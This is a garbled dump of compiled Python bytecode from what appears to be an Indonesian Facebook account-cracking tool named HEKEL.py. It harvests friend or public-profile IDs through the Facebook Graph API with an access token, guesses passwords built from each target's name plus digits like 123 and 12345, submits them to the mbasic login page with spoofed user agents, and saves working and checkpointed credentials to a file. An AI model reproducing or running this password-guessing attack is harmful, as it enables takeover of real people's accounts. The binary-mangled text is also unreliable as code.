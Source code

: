 ���user-agentt���mbasic_logout_buttons���save-devices���[0;92m[OK][0;97m s��� [0;92mâ—Š [0;97mRj���s ���done/indo.txtRh���s��� [OK] s��� â—Š RH���s���[0;93m[CP][0;97m s��� [0;91mâ—Š[0;97m s��� [0;91mâ—Š [0;97ms��� [CP] t���12345s—���Mozilla/5.0 (Linux; Android 7.1.2; AFTMM Build/NS6265; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/70.0.3538.110 Mobile Safari/537.36t���1234s‰���Mozilla/5.0 (Linux; Android 6.0.1; SM-G532G Build/MMB29T) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/63.0.3239.83 Mobile Safari/537.36t���Sayangsˆ���Mozilla/5.0 (Linux; Android 7.0; SM-G610M Build/NRD90M) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/69.0.3497.100 Mobile Safari/537.36(���R���t���mkdirt���OSErrorR[���R\���Rb���R]���R^���R_���R‚���t���contentRI���R���R`���t���okst���appendt���cekpoint(���t���argt���emt���anRB���t���pwt���rext���xot���oket���cekt���pw2t���pw3t���pw4(����(����s���/sdcard/HEKEL.pyt���mainL��sŒ���� 7 7 7 7 i���sž��� [0;94mâ”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€s-���[1;97m([1;94mâ€¢[1;97m) [1;97mSelesai ...sS���[1;97m([1;94mâ€¢[1;97m) [1;97mTotal [1;92mOK[1;97m/[1;93mCP [1;97m: [1;92ms���[1;97m/[1;93ms]���[1;97m([1;94mâ€¢[1;97m) [1;97mSalin hasil crack lalu simpan[1;91m : [1;97mdone indo.txti2���s ���[1;94mâ”€(#���R%���Rœ���R���R���RŠ���R ���R���R[���R\���Rb���R]���R^���R_���Rc���Rª���RK���R–���Ra���R���R���RI���t���readlinest���stripRL���RŽ���t���strt���lenR���R ���R���R����t���mapR©���R«���RJ���(���t���teakR2���R���t���st���idtt���pokt���spt���it���idlistt���lineR���R���R·���t���p(����(����s���/sdcard/HEKEL.pyRœ���ö��s¦���� L) c�����������C���sé���t��j�d�ƒ�y�t�d�d�ƒ�j�ƒ��a�Wn7�t�k �r_�d�GHt��j�d�ƒ�t�j�d�ƒ�t�ƒ��n�Xt��j�d�ƒ�t�GHd�GHt�j�d�ƒ�d�GHt�j�d�ƒ�d �GHt�j�d�ƒ�d�GHt�j�d�ƒ�d�GHt�j�d�ƒ�d�GHt�j�d�ƒ�t �ƒ��d��S( ���NR���s���login.txtR2���s&���[1;97m([1;91m![1;97m) Token Invalids���rm -rf login.txti���s����[0;91mâ”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€gìQ¸…ë±?s)���[0;97m1).[0;97m Crack Dari Daftar Temans)���[0;97m2).[0;97m Crack Dari Publik/Temans!���[0;97m3).[0;97m Crack Dari Files ���[0;91m0[0;97m).[0;91m Kembali(���R���R���RI���R����Rb���RL���R ���R���R���RŠ���t���pilih_bangla(����(����(����s���/sdcard/HEKEL.pyR—���£��s.���� c����������C���s ��t��d�ƒ�}��|��d�k�r'�d�GHt�ƒ��n|��d�k�r¥�t�j�d�ƒ�t�GHd�GHt�j�d�ƒ�t�j�d�t�ƒ�}�t �j�|�j�ƒ�}�x¹|�d�D]�}�t �j�|�d �ƒ�q‡�Wn“|��d�k�rÎt�j�d�ƒ�t�GHd�GHt�j�d�ƒ�t��d�ƒ�}�t�j�d�ƒ�y>�t�j�d �|�d�t�ƒ�}�t �j�|�j�ƒ�}�d�|�d�GHWnI�t�k �rUd�GHt��d�ƒ�t�ƒ��n#�t�j�j�k �rwd�GHt�ƒ��n�Xt�j�d �|�d�t�ƒ�}�t �j�|�j�ƒ�}�x�|�d�D]�}�t �j�|�d �ƒ�q°Wnj|��d�k�sæ|��d�k�r¦t�j�d�ƒ�t�GHyb�d�GHt�j�d�ƒ�t��d�ƒ�}�t�j�d�ƒ�x0�t�|�d�ƒ�j�ƒ��D]�}�t �j�|�j�ƒ��ƒ�q<WWqÔt�k �r|d�GHt��d�ƒ�qÔt�k �r¢d�GHt��d�ƒ�t�ƒ��qÔXn.�|��d�k�s¾|��d�k�rÈt�ƒ��n�d�GHt�ƒ��d�t�t�t �ƒ�ƒ�GHt�j�d�ƒ�d �d!�d"�g�} �x0�| �D](�}�d#�|�Gt�j�j�ƒ��t�j�d$�ƒ�qWd%�GHt�j�d�ƒ�d&�GHt�j�d�ƒ�d'�GHt�j�d�ƒ�d(�GHt�j�d�ƒ�d�GHt�j�d�ƒ�d)�„��}�t�d*�ƒ�} �| �j�|�t �ƒ�d+�GHd,�GHd-�t�t�t �ƒ�ƒ�d.�t�t�t!�ƒ�ƒ�GHd/�GHd0�d1�GHt��d2�ƒ�t"�ƒ��d��S(3���Ns���[1;97m(?) Pilih [94m>[1;97m R���s%���[1;97m([1;91m![1;97m) Isi Yg BenarR ���R���s����[0;91mâ”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€gìQ¸…ë±?s3���https://graph.facebook.com/me/friends?access_token=Rf���Rc���R!���s5���[1;97m([0;94mâ€¢[0;97m) ID Publik [0;91m:[0;97m s���https://graph.facebook.com/s���?access_token=s0���[1;97m([0;94mâ€¢[0;97m) Nama [0;91m:[0;97m Rj���s,���[1;97m([1;91m![1;97m) ID publik tidak adas��� [1;97m([1;91mKembali[1;97m)s*���[1;97m([1;91m![1;97m) Tidak ada koneksis���/friends?access_token=R"���R����s<���[1;97m([1;94mâ€¢[1;97m) [1;97mNama File[1;91m :[1;97m R2���s*���[1;97m([1;91m![1;97m) File tidak ada ! s���([1;91mKembali[1;97m)s)���[1;97m([1;91m![1;97m) File tidak ada !s��� ([1;91mKembali[1;97m)R$���Rž���s5���[0;97m([0;94mâ€¢[0;97m) Total ID[1;91m :[1;97m s���. s���.. s���... s$��� ([0;94mâ€¢[0;97m) Crack Berjalan i���sž��� [0;91mâ”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€s9���[0;97m Lama Hasil Gunakan Mode Perawan 3 Detik JossðŸ‘�s4���[0;97m Untuk Menghentikan Proses, Tekan CTRL + zs7���[0;97m Sedang Proses Mohon Bersabar, Semoga Beruntungc���������S���s"��|��}�y�t��j�d�ƒ�Wn�t�k �r*�n�Xyét�j�d�|�d�t�ƒ�}�t�j�|�j�ƒ�}�|�d�d�}�t�j�d�d�i�|�d�6|�d�6d �d�6d�i�d �d�6ƒ}�|�j �}�d�|�k�sÁ�d�|�k�r d�|�d�|�d�|�d�GHt�d�d�ƒ�}�|�j�d�|�d�|�ƒ�|�j �ƒ��t�j�|�ƒ�nód�|�k�r‹d�|�d�|�d�|�d�GHt�d�d�ƒ�}�|�j�d�|�d�|�ƒ�|�j �ƒ��t�j�|�ƒ�nˆ|�d�d�}�t�j�d�d�i�|�d�6|�d�6d �d�6d�i�d �d�6ƒ}�|�j �}�d�|�k�sñd�|�k�rPd�|�d�|�d�|�d�GHt�d�d�ƒ�}�|�j�d�|�d�|�ƒ�|�j �ƒ��t�j�|�ƒ�nÃd�|�k�r»d�|�d�|�d�|�d�GHt�d�d�ƒ�}�|�j�d�|�d�|�ƒ�|�j �ƒ��t�j�|�ƒ�nX|�d�d�} �t�j�d�d�i�|�d�6| �d�6d �d�6d�i�d �d�6ƒ}�|�j �}�d�|�k�s!d�|�k�r€d�|�d�| �d�|�d�GHt�d�d�ƒ�}�|�j�d�|�d�| �ƒ�|�j �ƒ��t�j�|�ƒ�n“d�|�k�rëd�|�d�| �d�|�d�GHt�d�d�ƒ�}�|�j�d�|�d�| �ƒ�|�j �ƒ��t�j�|�ƒ�n(d�}�t�j�d�d�i�|�d�6|�d�6d �d�6d�i�d �d�6ƒ}�|�j �}�d�|�k�sId�|�k�r¨d�|�d �|�d�|�d�GHt�d�d�ƒ�}�|�j�d�|�d�|�ƒ�|�j �ƒ��t�j�|�ƒ�nk�d�|�k�rd�|�d�|�d�|�d�GHt�d�d�ƒ�}�|�j�d�|�d�|�ƒ�|�j �ƒ��t�j�|�ƒ�n��Wn�n�Xd��S(!���NRŸ���s���https://graph.facebook.com/s���/?access_token=R ���R¡���s%���https://mbasic.facebook.com/login.phpRf���R4���R5���RU���R0���Rt���s7��Dalvik/1.6.0 (Linux; U; Android 4.4.2; NX55 Build/KOT5506) [FBAN/FB4A;FBAV/106.0.0.26.68;FBBV/45904160;FBDM/{density=3.0,width=1080,height=1920};FBLC/it_IT;FBRV/45904160;FBCR/PosteMobile;FBMF/asus;FBBD/asus;FBPN/com.facebook.katana;FBDV/ASUS_Z00AD;FBSV/5.0;FBOP/1;FBCA/x86:armeabi-Dalvik/1.6.0 (Linux; U; Android 4.4.2; NX55 Build/KOT5506)